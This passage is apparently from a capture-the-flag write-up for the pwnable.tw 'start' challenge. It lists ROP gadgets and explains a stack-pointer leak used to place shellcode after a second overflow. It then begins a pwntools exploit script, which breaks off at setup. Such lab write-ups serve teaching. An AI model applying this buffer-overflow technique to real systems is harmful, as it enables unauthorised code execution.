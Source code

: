 ```asm
0x08048091: xor ebx, ebx; mov dl, 0x3c; mov al, 3; int 0x80; 
0x08048091: xor ebx, ebx; mov dl, 0x3c; mov al, 3; int 0x80; add esp, 0x14; ret; 
0x08048086: daa; mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80; 
0x0804809c: ret; 

23 gadgets found

```

We only found 23 Gadgets and the majority end up calling int 80. This means we won't be able to use them to build an execve command. There is something else we can do though.

We know that the last thing we do before calling return is clearing the stack of the values we pushed onto it.

```asm
 8048099:       83 c4 14                add    esp,0x14
 804809c:       c3                      ret
```

So lets take a look at the following gadget:

```asm
 8048087:       89 e1                   mov    ecx,esp
 8048089:       b2 14                   mov    dl,0x14
 804808b:       b3 01                   mov    bl,0x1
 804808d:       b0 04                   mov    al,0x4
 804808f:       cd 80                   int    0x80
```

Since we cleared the stack of the variables we pushed onto it, this gadget basically loads the stack pointer into ecx and then writes it. This means that we have the top of the stack.

After writing we end up calling read again. This means we smash the stack twice and we can insert shellcode and we have a general idea of where it will be.



## THROW IT

The final exploit :)

```python
#!python
# 
# Exploit for 'start' over at pwnable.tw
#
# Use pwndbg for better gdb
# https://github.com/pwndbg/pwndbg
#
# install pwntools
# pip install pwntools

from pwn import *
from struct import pack
import sys
import os

os.environ['LD_LIBRARY_PATH'] = os.getcwd()

challenge_bin = './start'

# print the ELF Binary Characteristics
elf  =  ELF(challenge_bin)
print(elf)

remote_connection = False
debug = False
```